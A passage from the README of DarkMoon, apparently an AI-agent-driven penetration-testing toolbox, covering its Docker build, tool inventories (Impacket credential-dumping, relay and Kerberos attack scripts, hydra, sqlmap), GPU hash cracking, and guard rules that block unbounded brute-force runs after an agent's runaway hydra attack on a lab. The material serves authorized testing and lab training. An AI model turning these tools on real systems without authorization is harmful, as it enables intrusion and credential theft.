- **Ruby**: (compiled version) installed in `/opt/darkmoon/ruby`

> [!NOTE]
> The versions are **pinned** to avoid surprises.

[Back to Summary](#summary)

### VI.4.c Wordlists

- **SecLists**
  - accessible via:
    - `/usr/share/seclists`
    - `/usr/share/wordlists/seclists`

- **DIRB** wordlists
  - accessible via `/usr/share/dirb/wordlists`

[Back to Summary](#summary)

### VI.4.d Installed tools (examples)

The tools are installed via the scripts:

- Network scanning
- Web scanning
- Kubernetes
- Active Directory
- HTTP / DNS / RPC

Examples (non-exhaustive):

- `nuclei`
- `naabu`
- `httpx`
- `ffuf`
- `dirb`
- `kubectl`
- `kubeletctl`
- `kubescape`
- `netexec`
- `sqlmap`
- `wafw00f`

> [!TIP]
> All are directly accessible in the terminal.

[Back to Summary](#summary)

## VI.5. How to use the image

### VI.5.a Build the image

```bash
docker build -t darkmoon .
```

[Back to Summary](#summary)

### VI.5.b Start a shell

```bash
docker run -it darkmoon bash
```

[Back to Summary](#summary)

### VI.5.c Use a tool

```bash
nuclei -h
naabu -h
netexec -h
```

> [!NOTE]
> No complicated path is required.

[Back to Summary](#summary)

## VI.5bis. Execution safety and GPU acceleration

### VI.5bis.a Why a command can no longer freeze a campaign

A campaign is a single sequential loop: the agent runs a command, waits for its
output, then reasons about it. A command that never returns therefore does not
merely fail, it freezes everything after it. No further findings, no finalize,
no report.

The MCP executor accepted a `timeout` argument and never enforced it, so an
unbounded command held the loop open indefinitely. A campaign was lost this way:
the model escalated to `hydra -P rockyou.txt` (14 million candidates) and the run
sat frozen while two orphaned processes kept hammering the lab for 72 minutes.

Three layers now prevent it, in `mcp/src/execution_guard.py`:

1. **Pre-flight refusal.** Commands that provably cannot finish are rejected
   before they start: credential attacks over multi-million-entry lists, reading
   a live socket with `cat` (a service never sends EOF), full-range port sweeps,
   fuzzing with giant wordlists, `tail -f`, deep `sqlmap` runs. The check is
   narrow on purpose: `hydra` with a short candidate list still runs.
2. **Enforcement in the container.** Every command is wrapped in coreutils
   `timeout`, so the process dies even if the client goes away. Scanner
   grandchildren that survive the wrapper are reaped.
3. **An actionable answer.** A refusal or a timeout returns why it blocked, how
   to reach the same objective bounded, and an escalation ladder: retry once
   bounded, change angle, then declare the vector not-exploitable and move on.
   A bare "timed out" makes a model retry the identical command.

The matching doctrine is in every agent prompt under `NON-BLOCKING EXECUTION`.
Abandoning a dead end is an expected outcome; freezing the campaign is not.

### VI.5bis.b GPU acceleration

Offline hash cracking is the one workload a GPU changes by orders of magnitude.
Measured on an RTX 5060 Laptop against md5crypt:

| Backend | Speed | rockyou (14.3M) |
|---|---|---|
| GPU (CUDA) | 7 570 kH/s | about 2 seconds |
| CPU (pthreads) | 33.5 kH/s | hours |

Network brute-forcers (`hydra`, `medusa`, `ncrack`) gain **nothing** from a GPU:
their rate is set by the target's response time, not by local compute.

The toolbox entrypoint detects the hardware at container start, covering NVIDIA
(native and WSL2 through `/dev/dxg`), AMD (ROCm and `/dev/kfd`) and
Intel/generic OpenCL. It then confirms with `hashcat -I` before claiming
acceleration, so a GPU that hashcat cannot actually use is reported as absent
rather than advertised. The result is written to `/run/darkmoon-gpu.env`:

```
DM_GPU=1
DM_GPU_VENDOR=nvidia
DM_GPU_NAME=NVIDIA GeForce RTX 5060 Laptop GPU
DM_HASHCAT_OPTS=-D 2
```

The executor reads it and rewrites hashcat invocations: pinned to the GPU when
one is usable, and always given `--runtime`, so a full dictionary run completes
on GPU and returns partial results within budget on CPU instead of holding the
campaign for hours. Heavy work is right-sized, not refused.

**Enabling it.** `gpus: all` lives in `docker-compose.gpu.yml` rather than the
main compose, because it makes the container refuse to start on a host with no
GPU runtime, which would break every CPU-only install. `install.sh` probes for a
usable runtime and adds the overlay automatically. Manually:

```bash
docker compose -f docker-compose.yml -f docker-compose.gpu.yml up -d
```

Without a GPU everything still works, hashcat simply runs on CPU and the agent
is told so explicitly.

### VI.5bis.c Where reports are written

Reports are generated server-side from the findings store and written to
`REPORTS_DIR`. When `DARKMOON_REPORTS_DIR` is set, that path wins. The Pro stack
uses it because its data directory sits on a tmpfs while a separate persistent
volume is bound for reports; without the override a generated report lived only
in memory and disappeared on the next restart. Community and prod do not set the
variable: their data directory already is the volume-mounted path.

[Back to Summary](#summary)

## VI.6. How to add a new tool (for the community)

### VI.6.a Choose the right place

| Tool type              | Where to add it      |
| ---------------------- | -------------------- |
| Go / binary tool       | `setup.sh`           |
| Python tool            | `setup_py.sh`        |
| Runtime system library | Dockerfile (runtime) |
| Build library          | Dockerfile (builder) |

[Back to Summary](#summary)

### VI.6.b Rules to follow

- One tool = one clear block.
- Always display a message:
  - `msg "tool …"`

- Always verify the installation:
  - `tool -h` or `tool --version`

- Always install to:
  - `/out/bin` (for binaries)

- Do not mix responsibilities.

[Back to Summary](#summary)

### VI.6.c Simple example (Go tool)

```bash
msg "exampletool …"
go install github.com/example/exampletool@latest
install -m 755 "$(go env GOPATH)/bin/exampletool" "$BIN_OUT/exampletool"
```

[Back to Summary](#summary)

## VI.7. How to maintain the project

### VI.7.a In case of an error:

- Read the log.
- Identify whether the problem comes from:
  - Go,
  - Python,
  - APT,
  - a C compilation.

[Back to Summary](#summary)

### VI.7.b Best practices:

- Do not add unnecessary dependencies.
- Do not break the existing structure.
- Test before proposing a contribution.

[Back to Summary](#summary)

## VI.8. For the Open Source community

This project is made to:

- be **read**,
- be **understood**,
- be **improved**.

If you propose a contribution:

- be clear,
- be factual,
- respect the architecture.

[Back to Summary](#summary)

## VI.9. Very short summary

- Two stages: **builder → runtime**
- Clear and separated scripts
- Tools centralized in `/out/bin`
- Simple execution via `/usr/local/bin`
- Clean, stable, and maintainable image

[Back to Summary](#summary)

## VI.10. Toolbox list:

Here are **all the tools actually installed / present in the final image** via **Dockerfile + setup.sh + setup_py.sh** (and the symlinks/wrappers), in a table.

> [!WARNING]
> I **do not include** the _libs_ (libssl, zlib, etc.) nor the _build tools_ from the `builder` stage (gcc, make…), because they are not in the final runtime image.
> `docker-compose` also installs/includes **ZAP** in another container (`ghcr.io/zaproxy/zaproxy:weekly`) → **not included here** because it is **not** “installed via the darkmoon Dockerfile”.

[Back to Summary](#summary)

### VI.10.a Tools installed in the `darkmoon` runtime image

| Tool (command)                   | Source / installation method                | Location (binary)                                                       | Notes                                                         |
| -------------------------------- | ------------------------------------------- | ----------------------------------------------------------------------- | ------------------------------------------------------------- |
| `bash`                           | `apt-get install`                           | `/bin/bash`                                                             | Runtime shell                                                 |
| `ca-certificates`                | `apt-get install`                           | (system)                                                                | TLS certificates                                              |
| `tzdata`                         | `apt-get install`                           | (system)                                                                | Timezone                                                      |
| `dig` / `nslookup`… (`dnsutils`) | `apt-get install dnsutils`                  | `/usr/bin/dig`                                                          | DNS tooling                                                   |
| `curl` (Debian)                  | `apt-get install curl`                      | `/usr/bin/curl`                                                         | System curl                                                   |
| `curl` (custom 8.15.0)           | build + `COPY /out/curl` + `PATH`           | `/opt/darkmoon/curl/bin/curl`                                           | **Priority** in the `PATH`                                    |
| `jq`                             | `apt-get install jq`                        | `/usr/bin/jq`                                                           | JSON CLI                                                      |
| `hydra`                          | `apt-get install hydra`                     | `/usr/bin/hydra`                                                        | Brute force                                                   |
| `snmp*` (`snmp`)                 | `apt-get install snmp`                      | `/usr/bin/snmpwalk` etc.                                                | SNMP suite                                                    |
| `ssh` (client)                   | `apt-get install openssh-client`            | `/usr/bin/ssh`                                                          | SSH client                                                    |
| `dirb`                           | build from sources + copy                   | `/usr/local/bin/dirb`                                                   | Wordlists also copied                                         |
| DIRB wordlists                   | copy                                        | `/usr/share/wordlists/dirb/`                                            | + compatibility symlink `/usr/share/dirb/wordlists`           |
| `waybackurls`                    | Go build (`setup.sh`) + copy                | `/usr/local/bin/waybackurls`                                            | archive.org URL recon                                         |
| `kubectl`                        | official binary download (dl.k8s.io) + copy | `/usr/local/bin/kubectl`                                                | v1.34.2 (ARG)                                                 |
| `kube-bench`                     | `go install` + copy                         | `/usr/local/bin/kube-bench`                                             | v0.14.0                                                       |
| `grpcurl`                        | build from sources + copy                   | `/usr/local/bin/grpcurl`                                                | patched Go deps                                               |
| `ruby`                           | build Ruby 3.3.5 + copy                     | `/opt/darkmoon/ruby/bin/ruby`                                           | Embedded Ruby                                                 |
| `gem`                            | Ruby install                                | `/opt/darkmoon/ruby/bin/gem`                                            | RubyGems                                                      |
| `bundler`                        | `gem install bundler:2.7.2`                 | `/opt/darkmoon/ruby/bin/bundle`                                         | Used for WhatWeb                                              |
| `whatweb`                        | git clone + bundler gems + wrapper          | `/usr/local/bin/whatweb`                                                | Wrapper launches `/opt/darkmoon/whatweb/whatweb` with bundler |
| `python3`                        | build Python 3.12.6 + copy                  | `/opt/darkmoon/python/bin/python3`                                      | Embedded Python                                               |
| `pip3`                           | `--with-ensurepip`                          | `/opt/darkmoon/python/bin/pip3`                                         | Embedded Pip                                                  |
| `impacket`                       | `pip install impacket==0.12.0`              | (site-packages)                                                         | Library + impacket entrypoints                                |
| `impacket-smbclient`             | custom wrapper                              | `/usr/local/bin/impacket-smbclient`                                     | `python -m impacket.smbclient`                                |
| `rpcdump.py`                     | custom wrapper                              | `/usr/local/bin/rpcdump.py`                                             | `python -m impacket.examples.rpcdump`                         |
| `NetExec` (`nxc` / `netexec`)    | `pip install git+...NetExec@v1.4.0`         | `/opt/darkmoon/python/bin/nxc` (or `netexec`)                           | Installed from GitHub                                         |
| `netexec`                        | custom wrapper                              | `/usr/local/bin/netexec`                                                | Calls `nxc` or `netexec`                                      |
| `crackmapexec`                   | custom wrapper                              | `/usr/local/bin/crackmapexec`                                           | Compatibility alias → `netexec`                               |
| `bloodhound` (python ingestor)   | `pip install bloodhound==1.7.2`             | `/opt/darkmoon/python/bin/bloodhound`                                   | Python ingestor                                               |
| `bloodhound-python`              | custom wrapper                              | `/usr/local/bin/bloodhound-python`                                      | Explicit alias                                                |
| `wafw00f`                        | `pip install wafw00f`                       | `/opt/darkmoon/python/bin/wafw00f` + wrapper                            | Wrapper `/usr/local/bin/wafw00f`                              |
| `sqlmap`                         | `pip install sqlmap`                        | `/opt/darkmoon/python/bin/sqlmap` + wrapper                             | Wrapper `/usr/local/bin/sqlmap`                               |
| `arjun`                          | `pip install arjun`                         | `/opt/darkmoon/python/bin/arjun` + wrapper                              | Wrapper `/usr/local/bin/arjun`                                |
| `aws` (AWS CLI)                  | `pip install awscli`                        | `/opt/darkmoon/python/bin/aws` + wrapper                                | Wrapper `/usr/local/bin/aws`                                  |
| `naabu`                          | Go build (`setup.sh`) + copy                | `/opt/darkmoon/kube/naabu` + `/usr/local/bin/naabu`                     | Port scanner                                                  |
| `httpx`                          | Go build (`setup.sh`) + copy                | `/opt/darkmoon/kube/httpx` + `/usr/local/bin/httpx`                     | HTTP probing                                                  |
| `nuclei`                         | `go install` (`setup.sh`) + copy            | `/opt/darkmoon/kube/nuclei` + `/usr/local/bin/nuclei`                   | Template scanner                                              |
| `nuclei-templates`               | `nuclei -update-templates` + copy           | `/opt/darkmoon/nuclei-templates`                                        | + initial copy `/root/nuclei-templates`                       |
| `zgrab2`                         | `go install` (`setup.sh`) + copy            | `/opt/darkmoon/kube/zgrab2` + `/usr/local/bin/zgrab2`                   | Banner grabber                                                |
| `katana`                         | `go install` (`setup.sh`) + copy            | `/opt/darkmoon/kube/katana` + `/usr/local/bin/katana`                   | Crawler                                                       |
| `kubescape`                      | Go build (`setup.sh`, v3.0.9) + copy        | `/opt/darkmoon/kube/kubescape` + `/usr/local/bin/kubescape`             | K8s security scanner                                          |
| `kubectl-who-can`                | Go build (`setup.sh`) + copy                | `/opt/darkmoon/kube/kubectl-who-can` + `/usr/local/bin/kubectl-who-can` | K8s RBAC                                                      |
| `kubeletctl`                     | Go build (`setup.sh`) + copy                | `/opt/darkmoon/kube/kubeletctl` + `/usr/local/bin/kubeletctl`           | Kubelet tooling                                               |
| `rbac-police`                    | Go build (`setup.sh`) + copy                | `/opt/darkmoon/kube/rbac-police` + `/usr/local/bin/rbac-police`         | May be a **stub** if the build fails                          |
| `ffuf`                           | Go build (`setup.sh`)                       | `/out/bin/ffuf` (builder)                                               | /usr/local/bin/                                               |
| `acl` (`setfacl`)                | `apt-get install acl`                       | `/usr/bin/setfacl`                                                      | For default permissions on `/opt/darkmoon/scripts`            |
| Subfinder                        | go install                                  | subdomain enumeration                                                   |
| vulnx                            | go install                                  | Modern CLI for exploring vulnerability                                  |
| lightpanda                       | downloaded via latest release               | Lightpanda: the headless browser designed for AI and automation         |
| wp-scan                       | downloaded via latest release               | WPScan WordPress security scanner. Written for security professionals and blog maintainers to test the security of their WordPress websites         |
| cmseek                       | downloaded via latest release               | CMS Detection and Exploitation suite - Scan WordPress, Joomla, Drupal and over 180 other CMSs         |

[Back to Summary](#summary)

### VI.10.b “tools” installed by `pip install impacket==0.12.0` (scripts provided by Impacket)

These scripts are installed as commands in `/opt/darkmoon/python/bin/` (so in the `PATH`).

| Tool (command)       | Source / method | Location                                      | Notes                                    |
| -------------------- | --------------- | --------------------------------------------- | ---------------------------------------- |
| `secretsdump.py`     | pip (impacket)  | `/opt/darkmoon/python/bin/secretsdump.py`     | Dump AD secrets                          |
| `wmiexec.py`         | pip (impacket)  | `/opt/darkmoon/python/bin/wmiexec.py`         | WMI exec                                 |
| `psexec.py`          | pip (impacket)  | `/opt/darkmoon/python/bin/psexec.py`          | Exec via SMB service                     |
| `smbexec.py`         | pip (impacket)  | `/opt/darkmoon/python/bin/smbexec.py`         | SMB exec                                 |
| `atexec.py`          | pip (impacket)  | `/opt/darkmoon/python/bin/atexec.py`          | Exec via AT scheduler                    |
| `dcomexec.py`        | pip (impacket)  | `/opt/darkmoon/python/bin/dcomexec.py`        | DCOM exec                                |
| `mssqlclient.py`     | pip (impacket)  | `/opt/darkmoon/python/bin/mssqlclient.py`     | MSSQL client                             |
| `smbclient.py`       | pip (impacket)  | `/opt/darkmoon/python/bin/smbclient.py`       | SMB client (in addition to your wrapper) |
| `lookupsid.py`       | pip (impacket)  | `/opt/darkmoon/python/bin/lookupsid.py`       | RID/SID enum                             |
| `GetADUsers.py`      | pip (impacket)  | `/opt/darkmoon/python/bin/GetADUsers.py`      | Enumerate AD users                       |
| `GetNPUsers.py`      | pip (impacket)  | `/opt/darkmoon/python/bin/GetNPUsers.py`      | AS-REP roast                             |
| `GetUserSPNs.py`     | pip (impacket)  | `/opt/darkmoon/python/bin/GetUserSPNs.py`     | Kerberoast                               |
| `ticketer.py`        | pip (impacket)  | `/opt/darkmoon/python/bin/ticketer.py`        | Golden/Silver tickets                    |
| `raiseChild.py`      | pip (impacket)  | `/opt/darkmoon/python/bin/raiseChild.py`      | Trust abuse                              |
| `addcomputer.py`     | pip (impacket)  | `/opt/darkmoon/python/bin/addcomputer.py`     | Add machine account                      |
| `changepasswd.py`    | pip (impacket)  | `/opt/darkmoon/python/bin/changepasswd.py`    | Change password                          |
| `getPac.py`          | pip (impacket)  | `/opt/darkmoon/python/bin/getPac.py`          | Kerberos PAC                             |
| `getTGT.py`          | pip (impacket)  | `/opt/darkmoon/python/bin/getTGT.py`          | Kerberos TGT                             |
| `getST.py`           | pip (impacket)  | `/opt/darkmoon/python/bin/getST.py`           | Kerberos ST                              |
| `klistattack.py`     | pip (impacket)  | `/opt/darkmoon/python/bin/klistattack.py`     | Kerberos attack helper                   |
| `samrdump.py`        | pip (impacket)  | `/opt/darkmoon/python/bin/samrdump.py`        | SAMR enum                                |
| `reg.py`             | pip (impacket)  | `/opt/darkmoon/python/bin/reg.py`             | Remote registry ops                      |
| `netview.py`         | pip (impacket)  | `/opt/darkmoon/python/bin/netview.py`         | Network view                             |
| `services.py`        | pip (impacket)  | `/opt/darkmoon/python/bin/services.py`        | Service control                          |
| `eventquery.py`      | pip (impacket)  | `/opt/darkmoon/python/bin/eventquery.py`      | Event logs                               |
| `dpapi.py`           | pip (impacket)  | `/opt/darkmoon/python/bin/dpapi.py`           | DPAPI ops                                |
| `ntlmrelayx.py`      | pip (impacket)  | `/opt/darkmoon/python/bin/ntlmrelayx.py`      | NTLM relay                               |
| `smbserver.py`       | pip (impacket)  | `/opt/darkmoon/python/bin/smbserver.py`       | SMB server                               |
| `rbcd.py`            | pip (impacket)  | `/opt/darkmoon/python/bin/rbcd.py`            | RBCD abuse                               |
| `findDelegation.py`  | pip (impacket)  | `/opt/darkmoon/python/bin/findDelegation.py`  | Delegation enum                          |
| `GetLAPSPassword.py` | pip (impacket)  | `/opt/darkmoon/python/bin/GetLAPSPassword.py` | LAPS retrieval                           |
| `keylistattack.py`   | pip (impacket)  | `/opt/darkmoon/python/bin/keylistattack.py`   | Keylist attack                           |
| `ping.py`            | pip (impacket)  | `/opt/darkmoon/python/bin/ping.py`            | Ping PoC (impacket)                      |
| `sniffer.py`         | pip (impacket)  | `/opt/darkmoon/python/bin/sniffer.py`         | Sniffer helper                           |

[Back to Summary](#summary)

## VI.11 BONUS: Pentester lab to train DarkMoon

### VI.11.a WEB / API / GRAPHQL / FRONTEND

| Infrastructure | Protocols      | Services / Tech        | Darkmoon Engine        | Equivalent labs                        |
| -------------- | -------------- | ---------------------- | ---------------------- | -------------------------------------- |
| Classic web    | HTTP / HTTPS   | Apache, Nginx, IIS     | engine_infra_web       | **OWASP Juice Shop**                   |
| REST API       | HTTP / JSON    | Express, Spring, Flask | engine_web_api         | **OWASP crAPI**, **VAPI**              |
| GraphQL        | HTTP / GraphQL | Apollo, Graphene       | engine_web_graphql     | **DVGA**, **GraphQL-Goat**             |
| Web auth       | HTTP / JWT     | OAuth2, SSO            | engine_web_auth        | **AuthLab**, **JWT-Goat**              |
| CMS            | HTTP           | WordPress, Joomla      | engine_web_cms         | **WPScan VulnLab**, **HackTheBox CMS** |
| JS frontend    | HTTP           | React, Angular         | engine_web_frontend_js | **DOM XSS Labs**, **PortSwigger**      |
| File upload    | HTTP multipart | PHP, Node              | engine_web_upload      | **Upload Vulnerable Labs**             |
| WAF / Proxy    | HTTP           | Cloudflare, Akamai     | engine_web_waf_bypass  | **WAF Evasion Labs**                   |
| Web CI/CD      | HTTP / Git     | GitLab CI              | engine_web_ci_cd       | **GitHub Actions Labs**                |

[Back to Summary](#summary)

### VI.11.b ACTIVE DIRECTORY / WINDOWS

| Infrastructure   | Protocols    | Services    | Darkmoon Engine    | Equivalent labs                       |
| ---------------- | ------------ | ----------- | ------------------ | ------------------------------------- |
| AD domain        | Kerberos     | KDC         | engine_ad_kerberos | **AttackDefense AD**, **HTB AD Labs** |
| SMB              | SMBv1/v2     | File Shares | engine_ad_smb      | **VulnAD**, **GOAD**                  |
| LDAP             | LDAP / LDAPS | Directory   | engine_ad_ldap     | **LDAP Injection Labs**               |
| AD DNS           | DNS          | SRV records | engine_ad_dns_srv  | **AD DNS Labs**                       |
| ADCS             | RPC / HTTP   | PKI         | engine_ad_adcs     | **ADCS Abuse Labs**                   |
| GPO              | SMB          | SYSVOL      | engine_ad_gpo      | **BloodHound Labs**                   |
| Lateral movement | RPC          | WinRM / WMI | engine_ad_privesc  | **Proving Grounds AD**                |

[Back to Summary](#summary)

### VI.11.c NETWORK / INFRASTRUCTURE

| Infrastructure | Protocols     | Services    | Darkmoon Engine            | Equivalent labs                  |
| -------------- | ------------- | ----------- | -------------------------- | -------------------------------- |
| DNS            | UDP/TCP 53    | Bind        | engine_proto_dns           | **DNSGoat**, **PortSwigger DNS** |
| FTP            | TCP 21        | vsftpd      | engine_proto_ftp           | **VulnFTP**, **HTB FTP**         |
| SSH            | TCP 22        | OpenSSH     | engine_proto_ssh_telnet    | **SSH Weak Labs**                |
| SNMP           | UDP 161       | SNMPv2      | engine_proto_snmp          | **SNMP Labs**                    |
| Mail           | SMTP/IMAP     | Postfix     | engine_proto_mail_services | **MailGoat**                     |
| VPN            | IPsec/OpenVPN | VPN Gateway | engine_proto_vpn_access    | **VPN Labs**                     |
| Wi-Fi          | 802.11        | WPA2        | engine_proto_wifi          | **WiFi Pineapple Labs**          |
| RDP/VNC        | TCP 3389      | RDP         | engine_proto_rdp_vnc       | **BlueKeep Labs**                |
| ICMP           | ICMP          | Tunnel      | engine_proto_icmp_tunnel   | **ICMP Tunnel Labs**             |
| BGP/OSPF       | TCP/UDP       | Routing     | engine_proto_bgp_ospf      | **Routing Attack Labs**          |

[Back to Summary](#summary)

### VI.11.d CLOUD (AWS / AZURE / GCP / OVH)

| Infrastructure | Protocols    | Services         | Darkmoon Engine                | Equivalent labs                |
| -------------- | ------------ | ---------------- | ------------------------------ | ------------------------------ |
| IAM            | HTTPS        | Roles / Policies | engine_cloud_iam               | **Flaws.cloud**, **CloudGoat** |
| Compute        | HTTPS        | EC2 / VM         | engine_cloud_compute           | **AWSGoat**                    |
| Storage        | HTTPS        | S3 / Blob        | engine_cloud_storage           | **S3Goat**                     |
| Metadata       | HTTP 169.254 | IMDS             | engine_cloud_metadata_exposure | **IMDS Labs**                  |
| Containers     | HTTPS        | EKS / GKE        | engine_cloud_containers        | **KubeGoat**                   |
| CI/CD          | HTTPS        | Pipelines        | engine_cloud_ci_cd             | **CI/CD Goat**                 |
| Serverless     | HTTPS        | Lambda           | engine_cloud_serverless        | **LambdaGoat**                 |
| Secrets        | HTTPS        | Vault            | engine_cloud_secret_management | **Secrets Goat**               |
| Billing abuse  | HTTPS        | Billing API      | engine_cloud_billing_abuse     | **Cloud Abuse Labs**           |

[Back to Summary](#summary)

### VI.11.e IOT / EMBEDDED / SCADA / ICS

| Infrastructure | Protocols  | Services   | Darkmoon Engine             | Equivalent labs            |
| -------------- | ---------- | ---------- | --------------------------- | -------------------------- |
| PLC            | Modbus/TCP | Automation | engine_proto_modbus         | **ModbusPal**, **ICSGoat** |
| SCADA          | DNP3       | Energy     | engine_proto_dnp3           | **DNP3 Labs**              |
| MQTT           | TCP 1883   | Broker     | engine_proto_mqtt           | **MQTTGoat**               |
| CoAP           | UDP        | IoT        | engine_proto_coap           | **CoAP Labs**              |
| ZigBee         | 802.15.4   | Mesh       | engine_proto_zigbee         | **ZigBee Labs**            |
| BLE            | BLE        | GATT       | engine_proto_ble            | **BLEGoat**                |
| Firmware       | Raw        | Binwalk    | engine_firmware_binwalk     | **OWASP IoT Goat**         |
| Hardware       | UART/JTAG  | Debug      | engine_hw_jtag_uart         | **Hardware Hacking Labs**  |
| ICS Auth       | Custom     | HMI        | engine_scada_authentication | **ICS Auth Labs**          |

[Back to Summary](#summary)

### VI.11.f MULTI-INFRA ORCHESTRATION (RARE & CRITICAL)

| Mixed infrastructure | Trigger        | Engine                           | Labs                  |
| -------------------- | -------------- | -------------------------------- | --------------------- |
| Web + AD             | LDAP leak      | engine_infra_global_orchestrator | **HTB Hybrid Labs**   |
| Web + Cloud          | SSRF → IMDS    | engine_infra_global_orchestrator | **SSRF → AWS Labs**   |
| VPN + AD             | Split tunnel   | engine_infra_network + AD        | **Corp Network Labs** |
| IoT + Cloud          | MQTT bridge    | engine_infra_embedded + cloud    | **IoT Cloud Labs**    |
| CI/CD + Cloud        | Pipeline abuse | engine_global                    | **Supply Chain Labs** |

[Back to Summary](#summary)

# VII. MCP Workflows

This document explains **what MCP workflows are**, how they work, and
how to create new ones.

Target audience:

- developers
- advanced pentesters
- contributors

[Back to Summary](#summary)

## VII.1. What is an MCP Workflow?

A workflow is:

- a **Python module**,
- exposed by the MCP,
- that encapsulates a **coherent sequence of actions**,
- executed inside the Docker toolbox.

> [!NOTE]
> A workflow = a complete operational task.

[Back to Summary](#summary)

## VII.2. Where Workflows Live

Workflows are located in:

```
mcp/src/tools/workflows/
```

Examples:

- `port_scan.py`
- `vulnerability_scan.py`
- `web_crawler.py`

[Back to Summary](#summary)

## VII.3. Dynamic Discovery

At startup:

- the MCP automatically scans workflows,
- exposes their methods,
- makes them accessible to the AI.

> [!TIP]
> No manual registration required.

[Back to Summary](#summary)

## VII.4. Workflow Structure

Each workflow:

- inherits from `BaseWorkflow`,
- defines one or more methods,
- manages its timeouts,
- structures its results.

[Back to Summary](#summary)

## VII.5. Example: Vulnerability Scan

The `VulnerabilityScanWorkflow`:

- creates a dedicated workspace,
- runs Nuclei,
- parses JSON results,
- correlates findings by severity,
- returns a structured summary.

> [!IMPORTANT]
> This is not just a tool call. It is **complete operational logic**.

[Back to Summary](#summary)

## VII.6. Called by an Agent

An agent can call:

```
run_workflow("vulnerability_scan", "scan_vulnerabilities", {...})
```

The agent:

- chooses the appropriate workflow,
- decides when to execute it,
- interprets the results.

[Back to Summary](#summary)

## VII.7. Advantages of Workflows

- reusable
- testable
- auditable
- safer than raw command execution

[Back to Summary](#summary)

## VII.8. Creating a New Workflow

1.  Copy `TEMPLATE.py`
2.  Implement the logic
3.  Respect the structure
4.  Test locally
5.  Restart the MCP

> [!TIP]
> For detailed guide, see [WORKFLOW_GUIDE.md](/mcp/WORKFLOW_GUIDE.md)

[Back to Summary](#summary)

## VII.9. Best Practices

- One workflow = one mission
- Avoid mixing too many responsibilities
- Always structure outputs
- Handle timeouts properly

[Back to Summary](#summary)

## VII.10. Summary

Workflows:

- are the operational backbone of Darkmoon,
- encapsulate offensive logic,
- secure the execution of tools.

> [!NOTE]
> To understand the MCP itself, see [mcp.md](/mcp.md)

[Back to Summary](#summary)

# VIII. Contributing

If you to contribute to the project, you access to the coding guideline at [CONTRIBUTING.md](CONTRIBUTING.md)

[Back to Summary](#summary)

# IX. License

Code licensed under [GNU GPL v3](LICENSE)

[Back to Summary](#summary)
